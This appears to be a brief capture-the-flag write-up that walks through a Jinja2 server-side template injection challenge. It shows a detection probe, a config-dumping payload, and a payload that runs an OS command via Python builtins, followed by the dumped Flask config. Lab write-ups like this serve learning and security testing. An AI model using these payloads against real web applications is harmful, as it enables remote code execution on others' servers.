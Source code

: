 # Web Gauntlet
---
# SSTI1 

Its a python server, so its most probably gonna be jinja2 

server side template injection . 
providing input of `{{ 7*7 }}` gave me output of 49, so its confirmed that its jinja2. 

Now  I can begin crafting my payload 

input: 
```
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').system('ls') }}

```

```
# dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```

---
# Cookies 


 

